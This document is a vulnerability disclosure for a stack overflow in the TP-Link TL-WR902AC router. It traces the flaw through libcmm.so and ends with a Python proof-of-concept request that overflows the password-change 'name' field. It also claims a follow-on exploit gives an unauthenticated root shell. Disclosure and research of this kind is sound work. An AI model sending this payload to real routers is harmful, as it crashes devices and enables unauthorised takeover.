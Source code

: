 # TP-Link TL-WR902AC stack overflow vulnerability

## Overview

- Address of domestic vulnerability database to be submitted：https://www.cnvd.org.cn/
- Manufacturer's website information：https://www.tp-link.com/us/
- Firmware download address ： https://www.tp-link.com/us/support/download/
- Manufacturer's safety feedback address：https://www.tp-link.com/us/press/security-advisory/

Note: it has been confirmed to the official that the official website is the latest firmware and there are no other patch firmware. This vulnerability affects the latest version, as shown in the figure.

![image-20220209180731773](img/image-20220209180731773.png)

1. ## Affected version

Note: it has been confirmed to the official that the official website is the latest firmware and there are no other patch firmware

![image-20220209180810151](img/image-20220209180810151.png)

## 2. Vulnerability details

The main reason for the stack overflow vulnerability is in libcmm So library function DM_ In fillobjbystr(), this function will process the value of key = value returned from the front end. The following describes the propagation path of the vulnerability, taking httpd password modification as an example. Httpd program does not check the length when receiving oldpwd, PWD and name. After using sprintf to splice these variables, the first propagation function is RDP_ setObj()。

![image-20220209180833357](img/image-20220209180833357.png)

Figure 2 vulnerability propagation location 1

This function is called RDP_ Setobj () calls DM_ Fillobjbystr() function for the next step.

![image-20220209180851018](img/image-20220209180851018.png)

Figure 3 vulnerability propagation location 2

Then in DM_ Fillobjbystr() directly calls strncpy to copy the input content into the local variable V26. As shown in Figure 7, the variable size is 1304 and can overflow; At the same time, as shown in Figure 6, the copy length of strncpy is the character length between '=' and '\ n', which is not limited or checked. Therefore, the copy length is controllable, and there is a stack overflow vulnerability in this position. The second red box here is the test crash location.

![image-20220209180906577](img/image-20220209180906577.png)

Figure 4 overflow position and crash position

![image-20220209180915538](img/image-20220209180915538.png)

Figure 5 controllable copy length

![image-20220209180923627](img/image-20220209180923627.png)

Figure 6 local variable overflow size

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use fat simulation firmware tl-wr902acv3_ US_ 0.9.1_ 0.2. bin
2. Attack with the following POC attacks

```
import requests

headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 2048
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)
print response.text

```

The reproduction results are as follows:

![image-20220209181001527](img/image-20220209181001527.png)

Figure 7 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell, and do not need any password to log in and access the router. It is an unauthorized rce vulnerability. (as shown in the figure below, there is no web login)

![image-20220209181017595](img/image-20220209181017595.png)


